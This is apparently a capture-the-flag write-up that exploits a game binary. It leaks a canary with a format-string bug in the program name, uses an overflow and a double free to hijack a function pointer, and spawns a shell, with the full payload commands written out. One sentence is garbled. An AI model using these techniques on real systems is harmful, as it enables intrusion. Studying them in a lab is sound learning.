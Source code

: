 # Always go further

### Analysis

A `god_mode` function is present and opens a shell. It looks like the one that we have to call. However, since ASLR and PIE are present, we cannot know in advance its address.

We'll need to leak one to calculate the offset. Fortunately, it is exactly what the function `find_my_way` does ! If we can call this function, we would be able to calculate `god_mod` address.

This function can be called if the player is an *EXPLORER*. However, it seems they are no way to get an *EXPLORER* in this game. We would like that the player->role is equal to 2. So, we need to overflow `name` to write the value we want in player->role. If we can do that, we'll just have to choose *Do character action* and then leak the address.  

We can see that name is written in `init_player` and uses a `max_size` variable to prevent overflow. This max_size is defined by `name_size` in main. But this variable is protected by a canary, so even if we can overflow a buffer, we need to know the canary. 

This canary is harcoded and is always the saknow it is located on the stame. We have to find a way to read it. We ck so we need to read it. One option is format string attack, so let's find if a format string vulnerability is present.

If the player doesn't precise a name, the program will display a *usage* message. However, this one gets the program name and then put it in the printf function. If the program name is a format string, it will be interpreted ! We now have a way to read the canary.

Let's go back to `name_size`. We need to find an overflow somewhere. If the debug mode is activated with the -D param, we write a message in the `launch` buffer. This buffer is **LAUNCH_LENGTH** long and this constant is used in snprintf. However, the buffer has already been filled and we start writing 8 characters after the beginning. So we can have 8 byte overflow, which is enough to overwrite `name_size`. A ROP or ret2libc attack wouldn't work due to this small overflow.

Now that name_size is overwritten, we can overflow our player name and get the *EXPLORER* role to leak an address.

However, we just have the `god_mode` address but we can't call it. We cannot use the return address so we have to find another way to call the `god_mod` function in main body. When player performs an action, a function pointer is used. This one will call the function at the address it points. This is our only way to call the function we want. However, this function pointer is located before the name in the structure so we can't overlow it. In all cases, we would have to know the address before launching the program.

After looking at the player_t struct and npc_t struct, we see that they have the same size. More, npc game id is at the same location as player action, and we can change npc game id ! If we have a way that our player pointer points to the npc and then call perform action, the function at the address *proposed_game* will be called.

When we kill our player, only the role is set to *DEAD* and the pointer isn't reseted. It means we can perform a use after free or a double free attack. Use after isn't possible due to the role *DEAD* which is given because of the npc name with zeros at the end.

However, by killing twice our player, then creating a new one and then a npc, npc data will overwrite player data and the player pointer will point on it. We then only have to change the `proposed_game` to the address of `god_mode` and perform player action. We'll get our shell.

### Exploitation

First, lets leak the canary.
We can create a symlink with `ln -s chall1 <link_name>` to change the file name. After some tests we notice that for `./%25$p`, we get *0x14* which is name_size. So we can get the canary with `./%24$p`. We get `0xb4db16d` !

Now, we need to overwrite `name_size` and set the role to 2.
One more time we have to change the file name. For a weird reason, we only need 50 characters of padding (not the 52 which are 60 - 8). The filename becomes:

`echo -n -e "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x6d\xb1\x4d\x0b0000"`

and the name is :

`echo -n -e "AAAAAAAAAAAAAAAAAAAA\x02"`

So we have the following command to execute :

`./$(echo -n -e "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x6d\xb1\x4d\x0b0000") $(echo -n -e "AAAAAAAAAAAAAAAAAAAA\x02") -D`

Let's create a new farmer with **1**, then perform the action with **2**.

```
You're located at 0x5658c2ae
```

We got the `find_my_way` address ! We need to calculate the offset beetween `find_my_way` and `god_mode`. Let's use `objdump`: `objdump -d challenge`

```
0000125d <god_mode>:
    125d:       55                      push   %ebp
    125e:       89 e5                   mov    %esp,%ebp

...
...

000012ae <find_my_way>:
    12ae:       55                      push   %ebp
```

The difference is about 0x12ae - 0x125d. The god_mod address is so 0x5658c2ae - (0x12ae - 0x125d) = 1448657501.

Kill twice the player

```
Your choice: 6
This life is too hard for... Bye bye AAAAAAAAAAAAAAAAAAAA
...
...
Your choice: 6
This life is too hard for... Bye bye Cy� 
```

Now, create a new player and then a npc with **1** and **3**.

Change the game to *1448657501*

```
Your choice: 5
Choose a game number (1-2):
1.      dice
2.      more or less
1448657501
You've chosen game n°1448657501 !What do you want to do ?
```

And we can perform our player action to get the shell !

```
Your choice: 2
sh-5.1$ 
```